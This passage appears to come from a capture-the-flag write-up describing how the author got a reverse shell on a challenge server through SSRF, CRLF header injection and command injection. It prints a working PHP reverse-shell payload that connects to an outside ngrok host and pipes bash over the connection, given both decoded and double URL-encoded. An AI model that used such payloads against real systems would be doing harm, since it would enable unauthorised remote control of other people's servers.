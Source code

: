 ![](./images/Screenshot_2025-03-26_at_9.18.11_PM.png)


So we are gonna use the following host: **0.tcp.in.ngrok.io**, and the following port: **4040** as the ip, and port to get a reverse shell to our machine.



###### **Crafting the right shell:**
Now came the final boss fight — crafting a **reverse shell** payload that wouldn’t get mangled by filters, wouldn’t trigger a 400 Bad Request, and could be injected via SSRF + command injection into a shell that can escape the sandbox.

I’m not gonna lie — I spent hours testing all kinds of reverse shells: bash, nc, python, PHP… but every time, I hit some kind of wall.

Some were filtered. Some had special characters that broke the payload. Some were too long. Some needed binaries that weren't even present on the server.

Finally, I landed on **PHP** with a **proxy header double URL-encoded trick**. Here’s the winning payload:

Decoded URL (For clarification only):
```
GET /cgi-bin/attack-domain?target=Glitch&name=a
Location: /a
Content-Type: proxy:http://127.0.0.1/cgi-bin/attack-ip?target=::1%$(php -r '$sock=fsockopen("0.tcp.in.ngrok.io",4040);`bash <&3 >&3 2>&3`;')&name=

 HTTP/1.1
```
Encoded URL: (Always Ensure URL Encodeing)!
```
GET /cgi-bin/attack-domain?target=Glitch&name=a%0d%0aLocation:+/a%0d%0aContent-Type:+proxy:http://127.0.0.1/cgi-bin/attack-ip%3ftarget=::1%$(php%2b-r%2b'$sock%253dfsockopen(%220.tcp.in.ngrok.io%22,4040)%253b%60bash%2b<%25263%2b>%25263%2b2>%25263`%253b')%26name=%0d%0a%0d%0a HTTP/1.1
```

